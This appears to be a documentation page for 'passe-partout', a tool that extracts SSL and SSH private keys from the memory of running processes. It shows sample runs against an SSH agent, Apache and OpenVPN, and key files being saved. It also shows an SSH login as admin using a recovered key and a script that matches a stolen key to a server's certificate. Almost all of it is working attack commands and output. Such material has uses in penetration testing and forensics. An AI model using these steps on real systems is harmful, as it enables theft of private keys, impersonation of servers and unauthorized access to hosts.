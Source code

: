 SSL Keys extraction
===================

### Resources


https://github.com/aviat/passe-partout

### Extraction

##### SSH Agent


$ sudo ./passe-partout 4712
Target has pid 4712
on_signal(17 - SIGCHLD) from 4712
[-] invalid DSA key.
[-] invalid DSA key.
[-] invalid DSA key.
[-] invalid DSA key.
[X] Valid RSA key found.
[X] Key saved to file id_rsa-0.key
[-] invalid DSA key.
[-] invalid DSA key.
[-] invalid DSA key.
[-] invalid DSA key.
done for pid 4712


OpenSSH_4.3p2 Debian-6, OpenSSL 0.9.8e 23 Feb 2007
debug1: Reading configuration data /dev/null
debug1: Connecting to 192.168.0.1 [192.168.0.1] port 22.
debug1: Connection established.
debug1: identity file myplain.key type -1
[...]
debug1: Authentications that can continue: publickey,password
debug1: Next authentication method: publickey
debug1: Trying private key: myplain.key                          <===
debug1: read PEM private key done: type RSA                      <===
debug1: Authentication succeeded (publickey).                    <===
debug1: channel 0: new [client-session]
debug1: Entering interactive session.

Last login: Wed Aug 22 17:16:00 2007 from 192.168.0.51
admin@192.168.0.1:~$

##### Apache


$ ./passe-partout 29960
Target has pid 29960
on_signal(17 - SIGCHLD) from 29960
[-] invalid DSA key.
[-] invalid DSA key.
[...]
[-] unable to check key.
[-] unable to check key.
[X] Valid DSA key found.
[X] Key saved to file id_dsa-0.key
[-] unable to check key.
[...]
[X] Valid DSA key found.
[X] Key saved to file id_dsa-26.key
[...]
[X] Valid RSA key found.
[X] Key saved to file id_rsa-0.key
[...]
[X] Valid RSA key found.
[X] Key saved to file id_rsa-2.key
[-] invalid DSA key.
[-] invalid DSA key.
[-] invalid DSA key.
[-] invalid DSA key.
done for pid 29960
$ ls *key
id_dsa-0.key   id_dsa-15.key  id_dsa-20.key  id_dsa-26.key  id_dsa-7.key
id_dsa-10.key  id_dsa-16.key  id_dsa-21.key  id_dsa-2.key   id_dsa-8.key
id_dsa-11.key  id_dsa-17.key  id_dsa-22.key  id_dsa-3.key   id_dsa-9.key
id_dsa-12.key  id_dsa-18.key  id_dsa-23.key  id_dsa-4.key   id_rsa-0.key
id_dsa-13.key  id_dsa-19.key  id_dsa-24.key  id_dsa-5.key   id_rsa-1.key
id_dsa-14.key  id_dsa-1.key   id_dsa-25.key  id_dsa-6.key   id_rsa-2.key

# Finding manually which key is correct
$ openssl s_client -connect localhost:443> server_certificate.txt
depth=0 /CN=ubuntu
verify error:num=18:self signed certificate
verify return:1
depth=0 /CN=ubuntu
verify return:1

# or by letting the script obtaning the certificate itself
$ ruby match_private_key.rb server_certificate.txt
id_rsa-2.key$ ruby match_private_key.rb https://server.fr
id_rsa-2.key

##### OpenVPN


$ ps aux|grep openvpn
root     30006  0.0  0.1   5116  3060 pts/25   S+   14:54   0:00 openvpn openvpn.config
user       31179  0.0  0.0   3056   824 pts/22   R+   15:02   0:00 grep --color openvpn

$ sudo ./passe-partout 30006
Target has pid 30006
testing /lib/tls/i686/cmov/libc-2.10.1.so (0x251000)
testing anonymous (0x252000)
testing /lib/i686/cmov/libcrypto.so.0.9.8 (0x4ea000)
testing anonymous (0x4f7000)
testing /usr/lib/liblzo2.so.2.0.0 (0x747000)
testing /lib/libz.so.1.2.3.3 (0x794000)
testing /lib/tls/i686/cmov/libpthread-2.10.1.so (0x979000)
testing anonymous (0x97a000)
testing /lib/ld-2.10.1.so (0xc0f000)
testing /lib/tls/i686/cmov/libdl-2.10.1.so (0xc52000)
testing /lib/i686/cmov/libssl.so.0.9.8 (0xd82000)
testing /usr/lib/libpkcs11-helper.so.1.0.0 (0xf7b000)
testing /usr/sbin/openvpn (0x80c0000)
testing anonymous (0x80c1000)
testing [heap] (0x85c3000)
[X] Valid RSA key found.
[X] Key saved to file id_rsa-0.key
[-] invalid DSA key.
[-] invalid DSA key.
[-] invalid DSA key.
[-] invalid DSA key.
testing anonymous (0xb7754000)
testing anonymous (0xb778f000)
testing [stack] (0xbfdab000)
done for pid 30006
